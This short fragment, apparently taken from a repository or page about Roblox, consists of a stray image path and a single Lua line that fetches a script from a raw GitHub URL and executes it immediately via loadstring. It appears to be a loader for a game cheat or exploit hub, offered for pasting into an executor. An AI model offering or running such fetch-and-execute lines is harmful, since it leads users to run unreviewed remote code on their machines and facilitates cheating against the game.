 # lol
loadstring(game:HttpGet('https://raw.githubusercontent.com/Dimag16/DimagX_NEW/main/dimagx', true))()
